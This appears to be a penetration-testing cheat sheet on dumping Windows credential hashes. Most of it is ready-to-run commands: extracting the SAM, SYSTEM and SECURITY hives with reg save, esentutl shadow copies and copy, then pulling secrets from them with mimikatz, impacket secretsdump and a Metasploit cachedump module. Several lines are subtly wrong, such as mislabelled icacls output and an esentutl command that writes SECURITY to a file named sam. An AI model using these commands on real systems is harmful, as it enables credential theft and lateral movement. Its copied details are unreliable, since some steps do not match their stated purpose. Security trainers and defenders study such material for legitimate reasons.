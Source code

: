 # Hashdump

## 01 - Manual

### 1.1 - Dumping SAM hashes manually

```
C:\> icacls c:\windows\system32\config\security
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)
           
C:\> icacls c:\windows\system32\config\system
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)

C:\> icacls c:\windows\system32\config\sam
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)
           
C:\> icacls C:\Windows\Repair\SAM
C:\Windows\Repair\SAM WS01\user:(R)
                      NT AUTHORITY\SYSTEM:(I)(F)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Users:(I)(RX)
                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                      APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

C:\> icacls C:\Windows\Repair\SYSTEM
C:\Windows\Repair\SYSTEM WS01\user:(R)
                         NT AUTHORITY\SYSTEM:(I)(F)
                         BUILTIN\Administrators:(I)(F)
                         BUILTIN\Users:(I)(RX)
                         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges have that ability such as `WS01\user:(R)` in this case.

#### 1.1.1 - Save the hashes via `registry`

`C:\> reg save hklm\security c:\temp\security`

`C:\> reg save hklm\system c:\temp\system`

`C:\> reg save hklm\sam c:\temp\sam`

#### 1.1.2 - Shadow copy `esentutl.exe`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\sam`

#### 1.1.3 - Use the `copy` command

`C:\> copy C:\Windows\System32\config\SAM c:\temp\sam`

`C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system`

1. Dumping SAM credentials with `mimikatz`

`mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security`

2. Dumping SAM credentials with `secretsdump`

Instead of storing the hashes on the compromised target use the **File Transfer techniques.** Once that the process is done we can dump the hashes using one of the impacket scripts called `secretsdump`.

The syntax for `secretsdump` is:

`$ secretsdump.py -sam sam -system system local`

`$ secretsdump.py -sam sam -security security -system system local`

## 02 - Mimikatz

```
mimikatz # token::whoami

mimikatz # token::elevate

mimikatz # token::whoami

mimikatz # lsadump::secrets
```

## 03 - Metasploit

`meterpreter > run post/windows/gather/cachedump`

## References

- [Credential Access and Credential Dumping: Dumping Hashes From SAM Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)